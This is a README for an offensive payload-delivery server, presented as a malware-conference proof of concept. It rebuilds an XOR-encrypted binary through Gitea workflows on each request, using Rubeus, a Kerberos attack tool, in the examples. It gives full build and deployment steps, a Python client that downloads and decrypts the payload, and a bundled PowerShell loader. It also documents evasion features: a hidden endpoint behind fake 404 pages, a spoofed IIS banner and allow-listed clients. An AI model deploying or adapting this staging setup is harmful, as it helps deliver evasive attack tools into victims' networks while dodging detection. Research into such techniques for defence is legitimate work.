

# Gitea Artifact Delivery Server

Go HTTP service that, on every authenticated request to its download endpoint, triggers a Gitea Actions workflow, waits for it to finish, locates the release it produced, downloads the artifact files, and returns the encrypted binary (`ENCRYPTED_FILE`) together with the base64-encoded decryption key (`DECRYPTION_KEY`) in a single response.

This is a Proof of Concept presented at Malware Space - Ekoparty 2026: «Polymorphic Payloads with Git artifact-delivery-server.»

> Esta es una Prueba de Concepto presentada en Malware Space - Ekoparty 2026: «Payloads Polimórficos con Git artifact-delivery-server».


## Build

Requires Go 1.26 or later.

```bash
git clone https://github.com/nchgroup/artifact-delivery-server.git
cd artifact-delivery-server
go build -trimpath -ldflags="-s -w -buildid=" .
```

### Build for Linux

```bash
GOOS=linux GOARCH=amd64 go build -trimpath -ldflags="-s -w -buildid=" .
```

### Install with Go

Install the latest published version directly from GitHub:

```bash
go install github.com/nchgroup/artifact-delivery-server@latest
```

The executable is installed in `GOBIN`, or in `GOPATH/bin` when `GOBIN` is not set. Make sure that directory is included in `PATH`.

## Help

```text
$ ./artifact-delivery-server --help
Gitea artifact delivery server

Basic usage:
  artifact-delivery-server \
    --gitea-url https://gitea.example.com \
    --gitea-token "$GITEA_TOKEN" \
    --repository-owner admin \
    --repository-name repository \
    --workflow-name build.yml \
    --workflow-ref master \
    --decryption-key Rubeus.xor.key \
    --encrypted-file Rubeus.xor \
    --server-token "$SERVER_TOKEN"

Basic options:
  --gitea-url          Base URL of the Gitea instance. Env: GITEA_URL.
  --gitea-token        Gitea API token. Env: GITEA_TOKEN.
  --repository-owner   Repository owner or organization. Env: REPOSITORY_OWNER.
  --repository-name    Repository name. Env: REPOSITORY_NAME.
  --workflow-name      Workflow file name, for example build.yml. Env: WORKFLOW_NAME.
  --workflow-ref       Branch or ref on which to run the workflow. Env: WORKFLOW_REF.
  --decryption-key     Release asset name of the decryption key. Env: DECRYPTION_KEY.
  --encrypted-file     Release asset name of the encrypted file. Env: ENCRYPTED_FILE.
  --server-token       Bearer token required by the download endpoint. Env: SERVER_TOKEN.

Run "artifact-delivery-server --help-full" for the complete option reference and examples.
```

## Usage

Configuration options accept flags and environment variables where an `env` name is documented. Command-line flags take precedence over environment variables.

```bash
export GITEA_URL="https://gitea.example.com"
export GITEA_TOKEN="xxxxx"
export REPOSITORY_OWNER="admin"
export REPOSITORY_NAME="rubeus"
export WORKFLOW_NAME="build.yml"
export WORKFLOW_REF="master"
export SERVER_TOKEN="a-long-random-token"
export DECRYPTION_KEY="Rubeus.xor.key"
export ENCRYPTED_FILE="Rubeus.xor"

./artifact-delivery-server
```

### Using a `.env` file

When present, `.env` is loaded automatically from the current working directory:

```dotenv
GITEA_URL="https://gitea.example.com"
GITEA_TOKEN="xxxxx"
REPOSITORY_OWNER="admin"
REPOSITORY_NAME="rubeus"
WORKFLOW_NAME="build.yml"
WORKFLOW_REF="master"
SERVER_TOKEN="a-long-random-token"
DECRYPTION_KEY="Rubeus.xor.key"
ENCRYPTED_FILE="Rubeus.xor"
```

Use `--env-file` or `ENV_FILE` when the file has another name or location:

```bash
./artifact-delivery-server --env-file .env.production

# Equivalent:
ENV_FILE=.env.production ./artifact-delivery-server
```

The parser supports blank lines, comments, `export KEY=value`, and single- or double-quoted values. It does not execute the file as shell code. Existing process environment variables override values from the file, and command-line flags have the highest priority.

The file contains secrets and should not be committed. Add these rules to `.gitignore` before creating it:

```gitignore
.env
.env.*
!.env.example
```

This allows a secret-free `.env.example` template to remain versioned. Command-line flags continue to take precedence over values loaded into the environment.

## Sequence diagram



## Modules

| File | Responsibility |
|---|---|
| `main.go` | Minimal executable entry point, kept at the module root for `go install ...@latest` |
| `internal/app/run.go` | Application assembly, signal handling, and graceful shutdown |
| `internal/config/config.go` | CLI/environment options and derived configuration |
| `internal/config/validate.go` | Configuration validation and secret loading |
| `internal/config/dotenv.go` | `.env` discovery and loading with `godotenv` |
| `internal/config/headers.go` | Required client and response header parsing |
| `internal/config/help.go` | Brief and complete help output |
| `internal/errors/errors.go` | Application errors and HTTP status codes |
| `internal/gitea/client.go` | Hybrid Gitea client: official `gitea.dev/sdk` for API operations and guarded HTTP streaming for artifact downloads |
| `internal/workflow/manager.go` | Triggers workflows, identifies runs by returned ID or polling fallback, and waits for completion |
| `internal/release/manager.go` | Correlates the release and downloads its assets |
| `internal/pipeline/pipeline.go` | Orchestrates workflow → release → download |
| `internal/server/server.go` | HTTP endpoint, routing, and artifact delivery |
| `internal/server/auth.go` | Bearer authentication and optional HMAC request signing |
| `internal/server/client_ip.go` | Client address resolution and allowed-host validation |
| `internal/server/responses.go` | Response headers and error responses |
| `internal/tlsconfig/tls.go` | Manual TLS, Certbot, ephemeral certificates, and native ACME |
| `internal/logging/logger.go` | Compact console and JSON or text file logging with Zap |
| `internal/netpolicy/policy.go` | IP, CIDR, range, file, overlap merging, and trusted-proxy policies |
| `internal/proxytrust/` | Trusted proxy presets and provider range refresh |

## Client

```python
import base64, requests

resp = requests.get(
    "https://host:8080/download",
    headers={"Authorization": "Bearer <SERVER_TOKEN>"},
)
resp.raise_for_status()
decryption_key = base64.b64decode(resp.headers["Authorization"])
encrypted_data = resp.content

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes(data[i] ^ key[i % len(key)] for i in range(len(data)))

binary = xor_decrypt(encrypted_data, decryption_key)
```

## Custom HTML pages

An optional static index page can be served at a configurable route:

```bash
./artifact-delivery-server \
  --index-html-path ./index.html \
  --index-html-route /
```

An optional custom HTML page can also be returned for every unknown route. The response retains the correct `404 Not Found` status:

```bash
./artifact-delivery-server \
  --not-found-html-path ./404.html
```

The custom 404 page applies to unknown routes and to unauthenticated `/download` requests. Missing, malformed, or invalid Bearer tokens return the same `404 Not Found` response so the protected endpoint is not disclosed. Other API errors from `/download` remain JSON responses.

### Default Webpages

This repo includes example default webpages: https://github.com/MichalAFerber/default-web-pages

## Access guardrails

IP entries supplied inline and through a file are combined. Duplicate and redundant entries are normalized automatically, including equivalent masked CIDRs, contained networks, duplicate ranges, and overlapping or adjacent ranges:

```bash
./artifact-delivery-server \
  --allowed-client-ips "203.0.113.10,192.168.1.0/24,10.0.0.5-10" \
  --allowed-client-ips-file ./ips.txt
```

Blank lines and full-line comments beginning with `#` are accepted in the IP file. Invalid entries stop the server during configuration validation.

### Allowed host

Use `--allowed-host` or `ALLOWED_HOST` to require an exact DNS hostname in the HTTP `Host` header. The comparison is case-insensitive and accepts the configured hostname with the listener port, for example `delivery.example.tld:8080`:

```bash
./artifact-delivery-server --allowed-host delivery.example.tld
```

Requests using another hostname, an IP address, or a malformed `Host` header receive the configured 404 response. This is a virtual-host restriction; it is not a replacement for DNS, firewall rules, or TLS certificate validation.

Forwarding headers are ignored unless the direct peer matches `--trusted-proxies` or a trusted proxy preset:

```bash
# A reverse proxy on the same host: trusts IPv4 and IPv6 loopback.
./artifact-delivery-server --trusted-proxy-preset localhost

# Direct Cloudflare-to-origin traffic: verifies the current published edge
# ranges before accepting CF-Connecting-IP.
./artifact-delivery-server --trusted-proxy-preset cloudflare

# AWS CloudFront origin-facing servers.
./artifact-delivery-server --trusted-proxy-preset aws-cloudfront

# Fastly public proxy ranges.
./artifact-delivery-server --trusted-proxy-preset fastly

# Caddy in a container or another known proxy network.
./artifact-delivery-server --trusted-proxies "172.18.0.0/16,10.0.0.0/8"
```

Presets and manually supplied proxy ranges are additive. `localhost` adds `127.0.0.0/8` and `::1/128`. The other presets obtain their current ranges from the providers' official endpoints:

- Cloudflare: `https://api.cloudflare.com/client/v4/ips`
- AWS CloudFront: `https://ip-ranges.amazonaws.com/ip-ranges.json`, filtered to `CLOUDFRONT_ORIGIN_FACING`
- Fastly: `https://api.fastly.com/public-ip-list`

The selected remote presets are loaded in parallel during startup and refreshed every six hours. Startup fails closed if an initial provider response cannot be downloaded or validated. A later refresh failure keeps the last complete valid policy. Responses have a five-second request timeout and a 16 MiB size limit.

Cloudflare uses `CF-Connecting-IP` only for a verified Cloudflare peer. The other presets use the trusted `X-Forwarded-For` chain. Fastly must be configured to populate or overwrite `X-Forwarded-For`, with TLS on the relevant connections.

Provider IP ranges are shared by their customers and do not identify a particular account or distribution. Combine a CDN preset with a private required header, mTLS, or request signing whenever the provider supports that control.

A proxy preset controls when forwarded client-IP headers are trusted; it does not block direct connections to the origin. Restrict origin access to Cloudflare or Caddy separately with a firewall, private listener, or equivalent network control when that isolation is required.

### Multiple required and response headers

Each flag contains one complete `Name: value` definition. Repeat the flags to require or return more than one header. The download endpoint always requires a single `Authorization: Bearer <token>` header configured through `SERVER_TOKEN`:

```bash
./artifact-delivery-server \
  --client-header "X-Client-ID: AAAA" \
  --client-header "X-Environment: production" \
  --server-header "X-Content-Type-Options: nosniff" \
  --server-header "X-Robots-Tag: noindex"
```

For environment-based configuration, place headers in files instead of encoding arrays in environment values:

```dotenv
CLIENT_HEADERS_FILE="./client-headers.txt"
SERVER_HEADERS_FILE="./server-headers.txt"
```

`client-headers.txt`:

```text
# Headers that every client request must contain.
X-Client-ID: AAAA
X-Environment: production
```

`server-headers.txt`:

```text
# Headers added to every server response.
X-Content-Type-Options: nosniff
X-Robots-Tag: noindex
```

Inline definitions and file definitions are additive. Blank lines and full-line comments beginning with `#` are ignored. Duplicate header names, malformed definitions, empty client values, and headers managed internally (`Server`, `Authorization`, `Content-Length`, `Content-Type`, `Cache-Control`, and `Allow`) are rejected at startup. Values may contain commas and additional colons because definitions are split only on the first colon.

The standard response banner is configured separately:

```bash
./artifact-delivery-server --server-banner "Microsoft-IIS/10.0"
```

```dotenv
SERVER_BANNER="Microsoft-IIS/10.0"
```

### Optional HMAC and mTLS

`--request-signing-key-file` optionally enables HMAC-SHA256 verification with `X-Timestamp`, `X-Nonce`, and `X-Signature`. The signed input is `METHOD`, escaped path, timestamp, and nonce joined by LF characters. A valid nonce can be used only once until the timestamp's acceptance window expires. HMAC is optional; Bearer authentication remains the required default.

`--tls-client-ca-file` optionally enables mTLS and requires every client to present a certificate signed by that CA. It can be combined with manual TLS certificates, auto-cert, or ACME.

The bundled `resources/loader-psh/Loader.ps1` currently sends only the Bearer token. It does not generate HMAC headers, send configured custom client headers, or present an mTLS certificate; use a client capable of those features when enabling the optional guardrails.


## Help

Run `./artifact-delivery-server --help` to display a short description, the complete minimum CLI usage, descriptions of those required options, and the command for the complete help:

```bash
./artifact-delivery-server --help-full
```

The complete help includes basic and restricted examples and groups flags under:

- Configuration
- Gitea
- Workflow and artifacts
- HTTP server
- Client network policy
- Client authentication
- Static pages
- TLS and client certificates
- ACME
- Logging

Configuration errors use a short usage message instead of printing the entire flag reference.

## HTTP status codes

| Code | Cause |
|---|---|
| `404` | Unknown endpoint, unauthenticated download request, or release/assets not found |
| `405` | Authenticated request using a method other than `GET` |
| `500` | Internal error, failed workflow, ambiguity, or artifact validation failure |
| `502` | Error communicating with Gitea |
| `504` | Workflow did not appear or complete before the timeout |

Tested with Gitea 1.27. For a quick Gitea deployment, you can use https://github.com/nchgroup/gitea-deployer

## Caddy reverse proxy

Putting Caddy in front of the artifact delivery server provides two benefits:

- The configured artifact endpoint (`/download` by default) can be exposed on standard ports **80** or **443**.
- With HTTPS enabled, Caddy manages TLS automatically and protects the Bearer token, decryption key, and artifact in transit.

### HTTP only (port 80)

The simplest setup uses HTTP without TLS. Because every route is proxied, it also works when `--server-path` is changed:

```caddyfile
http://vps.example.com {
    reverse_proxy 127.0.0.1:8080
}
```

Run the artifact delivery server with `--server-host 127.0.0.1` so it cannot be accessed directly while Caddy is in front of it.

To run Caddy with the above configuration:

```bash
caddy run --config /path/to/Caddyfile
```

Caddy as a service

```bash
# /etc/caddy/Caddyfile
systemctl enable caddy
systemctl start caddy
```

Only CLI Caddy

```bash
caddy reverse-proxy --from http://vps.example.com --to 127.0.0.1:8080
```

## TLS

TLS is optional. Without TLS options, the server continues to use HTTP for compatibility.

The three TLS modes are mutually exclusive:

### Existing certificate and key

```bash
./artifact-delivery-server \
  --tls-cert-file server.crt \
  --tls-key-file server.key
```

Certbot files can also be used directly. The certificate is reloaded when it changes on disk, without restarting the process:

```bash
sudo certbot certonly --standalone -d artifacts.example.com

sudo ./artifact-delivery-server \
  --server-host 0.0.0.0 \
  --server-port 443 \
  --tls-cert-file /etc/letsencrypt/live/artifacts.example.com/fullchain.pem \
  --tls-key-file /etc/letsencrypt/live/artifacts.example.com/privkey.pem
```

`certbot --standalone` must temporarily bind to port 80 during issuance and renewal. You can use hooks to stop and restart the service, a DNS plugin, or a reverse proxy that handles the challenge. When Certbot replaces `fullchain.pem` and `privkey.pem`, new TLS connections automatically receive the renewed certificate.

To create a certificate manually with OpenSSL:

```bash
openssl req -x509 -newkey rsa:3072 -sha256 -nodes -days 365 \
  -keyout server.key -out server.crt \
  -subj "/CN=artifacts.example.com" \
  -addext "subjectAltName=DNS:artifacts.example.com,IP:127.0.0.1"

./artifact-delivery-server --tls-cert-file server.crt --tls-key-file server.key
```

### Local `auto-cert`

OpenSSL is not required. Go generates a **new self-signed ECDSA P-256 certificate on every startup**. The private key remains only in memory; only the public certificate specified by `AUTO_CERT_OUTPUT` is written to disk.

```bash
./artifact-delivery-server \
  --auto-cert \
  --auto-cert-hosts localhost,127.0.0.1 \
  --auto-cert-output artifact-delivery-server.crt

curl --cacert artifact-delivery-server.crt \
  -H "Authorization: Bearer $SERVER_TOKEN" \
  -o artifact.enc https://localhost:8080/download
```

Because the certificate changes on every startup, clients must retrieve and trust the newly generated `.crt` file again.

### Native ACME

The binary can also issue and renew public certificates without Certbot by using ACME/Let's Encrypt:

```bash
sudo ./artifact-delivery-server \
  --server-host 0.0.0.0 \
  --server-port 443 \
  --acme-domains artifacts.example.com \
  --acme-email admin@example.com \
  --acme-cache-dir /var/lib/artifact-delivery-server/acme \
  --acme-http-address :80 \
  --acme-accept-tos
```

The domain must resolve to the server, and public ports 80 and 443 must be reachable. Unlike `auto-cert`, ACME must retain its private cache to renew the certificate and account; the directory is protected with mode `0700`.

## Project structure

```
artifact-delivery-server
├── LICENSE
├── README.md
├── artifact-delivery-server
├── go.mod
├── go.sum
├── internal
│   ├── app
│   │   └── run.go
│   ├── config
│   │   ├── config.go
│   │   ├── dotenv.go
│   │   ├── headers.go
│   │   ├── help.go
│   │   └── validate.go
│   ├── errors
│   │   └── errors.go
│   ├── gitea
│   │   └── client.go
│   ├── logging
│   │   └── logger.go
│   ├── netpolicy
│   │   └── policy.go
│   ├── pipeline
│   │   └── pipeline.go
│   ├── proxytrust
│   │   ├── manager.go
│   │   └── providers.go
│   ├── release
│   │   └── manager.go
│   ├── server
│   │   ├── auth.go
│   │   ├── client_ip.go
│   │   ├── responses.go
│   │   └── server.go
│   ├── tlsconfig
│   │   └── tls.go
│   └── workflow
│       └── manager.go
├── main.go
└── resources
    ├── gitea-action-xor
    │   ├── README.md
    │   ├── action.yml
    │   └── index.js
    ├── gitea-rubeus-workflow
    │   └── build.yml
    └── loader-psh
        └── Loader.ps1
```

## Author
- cyberf
